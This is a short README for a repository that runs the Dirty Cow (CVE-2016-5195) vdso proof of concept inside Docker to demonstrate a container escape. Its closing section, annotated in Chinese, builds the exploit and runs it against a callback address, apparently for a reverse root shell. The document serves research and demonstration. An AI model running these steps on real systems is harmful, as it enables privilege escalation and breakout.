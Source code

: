 # dirtycow-docker-vdso

This repository is the necessary bits to get the vdso based Dirty Cow POC working inside a docker container. All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.

There is also a writeup and youtube video of using the above exploit to break out of a docker container on my blog:

  https://blog.paranoidsoftware.com/dirty-cow-cve-2016-5195-docker-container-escape/
  
  
  cheers!

  ----------------------------------------------------------------------------------------------------------------------------
#启动容器
cd dirtycow-docker-vdso/
sudo docker-compose run dirtycow /bin/bash

#进入容器，漏洞利用
cd /dirtycow-vdso/
make
./0xdeadbeef 192.168.172.136:1234
